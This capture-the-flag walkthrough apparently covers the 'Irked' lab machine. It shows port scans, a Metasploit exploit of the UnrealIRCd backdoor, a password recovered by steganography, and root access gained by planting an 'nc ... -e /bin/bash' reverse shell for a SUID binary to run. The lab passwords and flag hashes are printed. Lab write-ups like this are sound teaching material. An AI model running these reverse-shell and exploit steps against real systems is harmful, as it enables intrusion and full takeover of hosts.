

## PART 1 : Initial Recon

```console
nmap --min-rate 1000 -p- -v 10.10.10.117
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8000/tcp  open  http-alt
8067/tcp  open  infi-async
46040/tcp open  unknown
65534/tcp open  unknown
```
```console
nmap -oN irked.nmap -p22,80,111,6697,8000,8067,46040,65534 -sC -sV -v 10.10.10.117
```
```
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open   http        Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open   rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          35800/tcp  status
|_  100024  1          56850/udp  status
6697/tcp  open   ircs-u?
|_irc-info: Unable to open connection
8000/tcp  closed http-alt
8067/tcp  open   infi-async?
|_irc-info: Unable to open connection
46040/tcp closed unknown
65534/tcp open   unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---

## PART 2 : Port Enumeration

1. Open http://10.10.10.117 (default: __port 80__)
   - Landing Page: 

     

   - Page Source:
     ```html
     
     <br>
     <b><center>IRC is almost working!</b></center>
     ```
   __Notes__:
   - The page seems to be pointing us to the __*IRC service*__ on __port 6697__
   - The pages also only contains an image (__*irked.jpg*__)
   - Running `gobuster` and `nikto` doesn't seem to yield interesting results.

2. Attempt exploitation of the IRC service (__port 6697__)
   - UnrealIRCD 3.2.8.1 Backdoor Command Execution ([CVE-2010-2075](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor))
     ```console
     msfconsole
     
     use exploit/unix/irc/unreal_ircd_3281_backdoor

     show options
     # Name    Current Setting  Required  Description
     # ----    ---------------  --------  -----------
     # RHOSTS                   yes       The target address range or CIDR identifier
     # RPORT   6667             yes       The target port (TCP)

     set RHOSTS 10.10.10.117
     set RPORT 6697

     run
     # [*] Started reverse TCP double handler on 10.10.15.122:4444 
     # [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
     #     :irked.htb NOTICE AUTH :*** Looking up your hostname...
     # [*] 10.10.10.117:6697 - Sending backdoor command...
     # [*] Accepted the first client connection...
     # [*] Accepted the second client connection...
     # [*] Command: echo 4JezGWGL0WskDMqt;
     # [*] Writing to socket A
     # [*] Writing to socket B
     # [*] Reading from sockets...
     # [*] Reading from socket A
     # [*] A: "4JezGWGL0WskDMqt\r\n"
     # [*] Matching...
     # [*] B is input...
     # [*] Command shell session 1 opened (10.10.15.122:4444 -> 10.10.10.117:47923)...
     ```
   - While inside shell:
     ```console
     id
     # uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
     
     python -c 'import pty; pty.spawn("/bin/bash")'

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash

     cd /home/djmardov
     cd Documents
     ls -lah
     # drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
     # drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
     # -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
     # -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt     

     cat .backup
     ```
     ```
     Super elite steg backup pw
     UPupDOWNdownLRlrBAbaSSss
     ```
   __Notes__:
   - There exists a user named __djmardov__
   - __*user.txt*__ is readable only as __djmardov__ or as __root__
   - __*.backup*__ contains a steg password
     - Maybe it could be used on __*irked.jpg*__ from the http service

---

## PART 3 : Generate User Shell
1. Run __*irked.jpg*__ on online steg tools
   - https://futureboy.us/stegano/decinput.html
     
     

   - Output:
     ```
     Kab6h+m+bbp2J:HG
     ```
2. Login via SSH with user __djmardov__
   ```console
   ssh -l djmardov 10.10.10.117
   # djmardov@10.10.10.117's password: Kab6h+m+bbp2J:HG
   ```
   While inside shell:
   ```console
   cat ~/Documents/user.txt
   # 4a66a78b12dc0e661a59d3f5c0267a8e
   ```

---

## PART 4 : Privilege Escalation (djmardov -> root)
1. Check for SUID files owned by root
   ```console
   find / -uid 0 -perm -4000 -type f 2>/dev/null
   # ...
   # /usr/bin/viewuser
   # ...
   ```
2. Try to run __*/usr/bin/viewuser*__
   ```
   This application is being devleoped to set and test user permissions
   It is still being actively developed
   (unknown) :0           2019-04-27 13:17 (:0)
   djmardov pts/0        2019-04-27 13:18 (10.10.15.122)
   sh: 1: /tmp/listusers: not found
   ```
   __Notes__:
   - __*viewuser*__ runs __*/tmp/listusers*__
     - The file does not yet exist in the system
     - __*/tmp/listusers*__ will be run as root no matter who owns it
3. Create payload:
   ```console
   echo "nc 10.10.15.122 4444 -e /bin/bash" > /tmp/listusers
   ```
4. Establish __root__ shell:
   1. Local terminal:
      ```console
      nc -lvp 4444
      ```
   2. __djmardov__ shell:
      ```console
      /usr/bin/viewuser
      ```
   3. netcat listener:
      ```console
      id 
      # uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
      
      find / -name root.txt
      # /root/root.txt

      cat /root/root.txt
      # 8d8e9e8be64654b6dccc3bff4522daf3
      ```
